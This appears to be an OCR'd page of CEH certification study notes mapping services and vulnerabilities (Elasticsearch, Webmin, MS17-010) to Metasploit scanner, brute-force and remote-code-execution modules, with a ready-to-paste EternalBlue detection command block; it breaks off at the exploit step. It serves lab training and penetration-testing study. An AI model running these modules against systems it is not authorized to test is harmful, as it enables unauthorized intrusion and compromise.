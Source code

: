 **Common Service:** Elasticsearch REST API

*   **Auxiliary #1 (Info/Data Disclosure):**

    *   `use auxiliary/scanner/elasticsearch/indices_enum`

    *   Purpose: Enumerates all database indices if authentication is off.

*   **Exploit #2 (RCE - CVE-2014-3120):**

    *   `use exploit/multi/elasticsearch/script_mvel_rce`

    *   Purpose: Executes arbitrary Java code on older versions with scripting enabled.

  ___

## Port 10000 - Webmin

**Common Service:** Webmin System Administration

*   **Auxiliary #1 (Brute Force):**

    *   `use auxiliary/scanner/webmin/webmin_login`

    *   Purpose: Bruteforces the Webmin login.

*   **Exploit #2 (RCE - CVE-2019-15107):**

    *   `use exploit/linux/http/webmin_backdoor`

    *   Purpose: Exploits a backdoor in `password_change.cgi` for unauthenticated RCE.


---

# CEH Metasploit Toolkit #metasploit_tookit  – Detection → Exploitation Map (Refactor)

> One‑to‑one mapping of **checks (detection)** to the **corresponding Metasploit exploit/module** with ready‑to‑paste commands. Keep this open during labs.

---

## A) Network/Remote Vulns

### A.1 MS17‑010 (EternalBlue)

**Detect**

```text
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <ip_or_cidr>
set THREADS 25
run
```

**Exploit**
